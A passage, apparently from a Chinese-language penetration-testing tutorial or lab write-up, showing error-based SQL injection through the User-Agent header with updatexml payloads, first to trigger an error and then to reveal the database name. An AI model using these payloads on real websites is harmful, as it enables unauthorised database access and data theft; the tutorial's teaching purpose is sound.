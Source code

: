 ![img](assets/KYgMPSBjNhdQ9XU.jpg) 

#### 3.5.2.3.**使用报错语句进行测试**

User-Agent: 'and updatexml(1,0x7e,3)and '1'='1

![img](assets/AnhalGyPErwu8MB.jpg) 

#### 3.5.2.4.**确认数据库名**

User-Agent: 'and updatexml(1,concat(0x7e,database()),3) and '

![image-20230312184054985](assets/wPnOQb5pJ9aLH3u.png)
